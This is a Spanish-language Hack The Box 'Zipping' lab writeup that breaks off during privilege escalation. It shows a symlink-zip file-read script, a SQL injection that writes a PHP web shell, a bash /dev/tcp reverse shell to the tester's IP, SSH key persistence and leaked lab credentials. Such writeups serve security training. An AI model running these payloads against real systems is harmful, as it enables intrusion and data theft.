+++
author = "Andrés Del Cerro"
title = "Hack The Box: Zipping Writeup | Medium"
date = "2024-08-03"
description = ""
tags = [
    "HackTheBox",
    "Zipping",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "LFI",
    "Abusing Symbolic Link",
    "Scripting",
    "Python Scripting",
    "Information Leakage",
    "SQL Injection",
    "Abusing FILE privilege",
    "Reversing",
    "Abusing Shared Library"
]

+++

# Hack The Box: Zipping Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Zipping"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.229.87 --ulimit 5000 -g 
10.129.229.87 -> [22,80]
```

```shell
$ nmap -p22,80 -sCV 10.129.229.87 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 22:05 CEST
Nmap scan report for 10.129.229.87
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.53 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.229.87 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-03 22:06 CEST
Nmap scan report for 10.129.229.87
Host is up (0.037s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
67/udp    closed dhcps
5002/udp  closed rfe
24606/udp closed unknown
27482/udp closed unknown
28609/udp closed unknown
30909/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.82 seconds
```

El único punto de ataque por ahora es el puerto 80/TCP .

# HTTP Enumeration
```shell
$ whatweb http://10.129.229.87
http://10.129.229.87 [200 OK] Apache[2.4.54], Bootstrap, Country[RESERVED][ZZ], Email[info@website.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.54 (Ubuntu)], IP[10.129.229.87], JQuery
```

Encontramos unos nombre de usuarios.


Encontramos una funcionalidad`/upload.php`

Dice que solo acepta un archivo zip y dentro debe de haber un archivo pdf que contenga un curriculum.
Viendo que la máquina se llama Zipping, supongo que los tiros deben de ir por aquí.


Probando la funcionalidad, subí un archivo .zip con un archivo .txt dentro y parece que comprueba que sea un archivo pdf.


Si subimos un archivo con el formato que se nos pide, vemos que nos devuelve una ruta.



Y podemos ver el archivo PDF.


# LFI 1
Después de intentar burlar la subida del archivo, me encontré con este [video](https://www.youtube.com/watch?v=mnUaDCNaYwg).

Donde podemos conseguir un LFI a través de enlaces simbólicos.

Vamos a crear una prueba de concepto, haciendo un enlace simbólico llamado `test.pdf` al `/etc/passwd`

```shell
$ ln -s /etc/passwd test.pdf
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/zipping/content]
└──╼ [★]$ ls
test.pdf
```

Ahora creamos el archivo .zip
```shell
[★]$ zip -r --symlink test.zip *
  adding: test.pdf (deflated 65%)
```

Y ahora solicitando este archivo por curl...
```shell
 curl http://10.129.229.87/uploads/e8e7b570702ae4e2572f607419225362/test.pdf
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

¡Eso fue fácil!

Ahora vamos como nos podemos aprovechar de este LFI, pero antes voy a scriptear esto ya que si no voy a tardar mucho en solicitar el archivo, ya que para cada uno tendría que crear el enlace simbólico, el zip y subirlo...

Este es el script
```python
import os
import requests
import signal
import re
from bs4 import BeautifulSoup

BASE_URL = "http://10.129.229.87"

def def_handler(x,y):
    print("\n[i] Saliendo...")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

def create_symbolic_link(file):
    os.system(f"ln -s {file} pwn.pdf")
    return "pwn.pdf"

def create_zip_file(link_path):
    os.system(f"zip -r --symlink pwn.zip {link_path} >> /dev/null")
    return "pwn.zip"

def upload_file(zip_path):
    r = requests.Session()
    files = {'zipFile': ('pwn.zip', open(zip_path,'rb').read())}
    data = {'submit': ''}
    res = r.post('%s/upload.php' % BASE_URL, files=files,data=data)

    soup = BeautifulSoup(res.text, 'html.parser')
    links = soup.find_all('a')
    href_values = [link.get('href') for link in links]

    pattern = re.compile(r'^uploads/[0-9a-f]{32}/pwn\.pdf$')
    filtered_hrefs = [link.get('href') for link in links if pattern.match(link.get('href'))]
    upload_url = filtered_hrefs[0]
    return upload_url    


def read_file(upload_path):
    res = requests.get(BASE_URL+ "/" + upload_path)
    print(res.text)
    pass
         
def lfi(file):
    link_path = create_symbolic_link(file)
    zip_path = create_zip_file(link_path)
    upload_url = upload_file(zip_path)
    # Borrando los archivos para poder solicitar el siguiente
    os.system("rm pwn.zip pwn.pdf")
    read_file(upload_url)
    
if __name__ == "__main__":
    while True:
        file = input("> ")
        lfi(file)
```

En el archivo `/var/www/html/shop/product.php`
Vemos lo siguiente
```php
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
```

Si cargamos el archivo `/var/www/html/shop/functions.php`
Vemos lo siguiente
```
	$DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
```

# SQL Injection -> Bypassing preg_match()
Por ahora no nos sirve de nada, lo único que sabemos gracias a la credencial que por detrás la base de datos es MySQL, MariaDB, o variados.

Antes, paralelamente estaba ejecutando un `sqlmap` para ver si este campo era vulnerable a SQL pero no encontró nada.
Ahora sabiendo como funciona por detrás y viendo la expresión regular que emplea, podemos intentar bypassearla.
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match

No lo había incluido, pero había un apartado en el sitio web donde vi antes un parámetro `id` que me llamó la atención por un posible SQLi.


Si intentamos hacer una inyección SQL normal nos redirecciona al `index.php`
`http://10.129.229.87/shop/index.php?page=product&id=2 or 1=1-- -`

Si probamos el payload `%0A100'+or+'1'='1` vemos el primer reloj (id 1), esto significa que se está aconteciendo una SQLi.


Existen 8 columnas por detrás.


Podemos ver también la versión de base de datos.


También podemos comprobar el usuario.


Podemos ver donde se almacenan los privilegios del usuario en MariaDB.
https://mariadb.com/kb/en/information-schema-user_privileges-table/

Se almacena en `information-schema.user_privileges`
# Foothold
Este es el payload para filtar por los permisos de nuestro usuario `root@localhost`
`%0A100%27+union+select+1,group_concat(grantee,privilege_type),3,4,5,6,7,8+from+information_schema.user_privileges+where+grantee+like+%27%root%%27+--+-1`


Cuidado, tenemos permiso para poder crear archivos, lo podríamos utilizar para crear una Web Shell y a través del LFI explotarla, aun que probablemente no pueda explotar la Web Shell debido a que no se interpretará el PHP en el PDF...

Viendo la documentación de MariaDB
https://mariadb.com/kb/en/select-into-outfile/

Podríamos crear un archivo haciendo un
`SELECT "LOQUESEA" INTO OUTFILE pointed.php`

Preparamos el payload, y ahora solo falta crear el archivo..



`http://10.129.229.87/shop/index.php?page=product&id=%0A100%27+union+select+1,%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);%20?%3E%22,3,4,5,6,7,8+into+outfile+"/var/www/html/pointed.php"--+-1`

No tenemos permisos para crear archivos en la aplicación web. Esperable.

Revisando el archivo `/var/www/html/shop/index.php` vemos que es vulnerable a un LFI y además se concatena la extensión `.php` al final, y como lo que queremos es cargar un archivo PHP, nos viene al pelo.
```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

Podemos probar a crearlo en `/tmp/pointed.php`
`http://10.129.229.87/shop/index.php?page=product&id=%0A100%27+union+select+1,%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);%20?%3E%22,3,4,5,6,7,8+into+outfile+%22/tmp/pointed.php%22--+-1`

Por alguna razón a `/tmp/pointed.php` no puedo subir el archivo.


Pero si probamos a subirlo a `http://10.129.229.87/shop/index.php?page=product&id=%0A100%27+union+select+1,%22%3C?php%20echo%20shell_exec($_GET[%27cmd%27]);%20?%3E%22,3,4,5,6,7,8+into+outfile+%22/dev/shm/pointed.php%22--+-1`

¡Conseguimos al fin una Web Shell!


Si nos ponemos en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Podemos tratar de mandarnos una Reverse Shell
```
http://10.129.229.87/shop/index.php?page=/dev/shm/pointed&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.10.14.80/443%200%3E%261%22
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.80] from (UNKNOWN) [10.129.229.87] 39240
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```

Podemos ver la flag de usuario.
```shell
rektsu@zipping:/home/rektsu$ cat user.txt
cat user.txt
8de5cae4a28aeac59....
```

# Privilege Escalation
Enumerando la máquina, vemos que podemos ejecutar como el usuario que queramos el binario `stock`

```shell
rektsu@zipping:/$ sudo -l
sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Me pide una password.
```shell
rektsu@zipping:/$ sudo /usr/bin/stock test
sudo /usr/bin/stock test

Enter the password: Invalid password, please try again.
```

Ya que la shell no es muy estable, voy a establecer persistencia añadiendo mi clave pública al `authorized_keys`

```shell
rektsu@zipping:/home/rektsu/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCs/aNkke9LIHvwrIqFLiLavlSa5gVzvG6EibfhsRDbRY0DLzVMaWw2TmVJ/sjcWBg7DqGFJaJ70cqh7rCX9WYQnUTQUoo..." > authorized_keys
<hQlNkARQb9XM8= pointedsec@parrot" > authorized_keys
```

```shell
$ ssh rektsu@10.129.252.223
Welcome to Ubuntu 22.10 (GNU/Linux 5.19.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Sat Aug  3 20:04:00 2024 from 10.10.14.80
rektsu@zipping:~$
```

## Reversing `stock`
Abriendo el binario en `ghidra`

Vemos la contraseña.


Si la contraseña es válida, vemos que con `dlopen()` se carga una librería compartida. Pero el nombre de esta está ofuscado.


Podemos hacer un script en Python para intentar obtener el valor.
```python
def xor_decrypt(data, key):
    # Convertir los datos y la clave a bytes
    data_bytes = data.to_bytes(8, byteorder='little')
    key_bytes = key.to_bytes(8, byteorder='little')
    
    # Aplicar XOR
    decrypted_bytes = bytes([data_bytes[i] ^ key_bytes[i % len(key_bytes)] for i in range(len(data_bytes))])
    
    return decrypted_bytes

# Valores iniciales
local_e8 = 0x2d17550c0c040967
local_f0 = 0x657a69616b6148

# Descifrar
descifrado_bytes = xor_decrypt(local_e8, local_f0)

# Imprimir los bytes y la cadena
print(f"Descifrado (bytes): {descifrado_bytes.hex()}")
print(f"Descifrado (string): {descifrado_bytes.decode('utf-8', errors='ignore')}")

# Verificar si la longitud del resultado sugiere más datos
if len(descifrado_bytes) < 8:
    print("El valor descifrado parece ser incompleto.")
```

El valor está incompleto, pero bien, ya sabemos que la librería está en /home/r... y nuestro usuario se llama `rektsu` y es el único usuario que tiene un directorio personal en `/home`

Ahora solo falta saber cual es la localización de librería compartida que está utilizando para ver si podemos modificarla y escalar privilegios. 
```shell
$ python3 decrypt.py 
Descifrado (bytes): 2f686f6d652f722d
Descifrado (string): /home/r-
```

Mi reto era intentar descubrir donde estaba la librería de forma estática, pero con `ltrace` podemos descubrirlo muy fácilmente.
